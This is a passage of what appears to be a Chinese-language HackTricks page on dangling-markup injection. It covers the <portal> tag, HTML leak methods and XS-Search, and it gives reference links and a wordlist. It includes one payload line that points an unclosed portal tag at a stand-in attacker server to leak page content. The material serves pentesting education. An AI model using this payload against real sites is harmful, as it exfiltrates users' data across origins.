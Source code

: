 ### 新的\<portal HTML标签

您可以在[此处](https://research.securitum.com/security-analysis-of-portal-element/)找到关于\<portal标签可利用漏洞的非常**有趣的研究**。\
在撰写本文时，您需要在Chrome中启用portal标签，方法是在`chrome://flags/#enable-portals`中进行设置，否则它将无法工作。
```markup
<portal src='https://attacker-server?
```
### HTML泄漏

并非所有HTML中泄漏连接的方法都对悬挂标记有用，但有时它可能会有所帮助。在这里检查它们：[https://github.com/cure53/HTTPLeaks/blob/master/leak.html](https://github.com/cure53/HTTPLeaks/blob/master/leak.html)

## XS-Search

XS-Search旨在通过滥用侧信道攻击来**窃取跨源信息**。因此，它是一种与悬挂标记不同的技术，但其中一些技术滥用了HTML标签的包含（带有和不带有JS执行），例如[**CSS注入**](xs-search.md#css-injection)或[**延迟加载图像**](xs-search.md#image-lazy-loading)**。**

{% content-ref url="xs-search.md" %}
[xs-search.md](xs-search.md)
{% endcontent-ref %}

## 暴力破解检测列表

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/dangling_markup.txt" %}

## 参考资料

这里介绍的所有技术以及更多技术的详细信息可以在以下链接中查看：

{% embed url="http://lcamtuf.coredump.cx/postxss/" %}

还可以在这里找到可以滥用的其他HTML标签：

{% embed url="http://www.thespanner.co.uk/2011/12/21/html-scriptless-attacks/" %}

更多信息：

{% embed url="https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup" %}

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
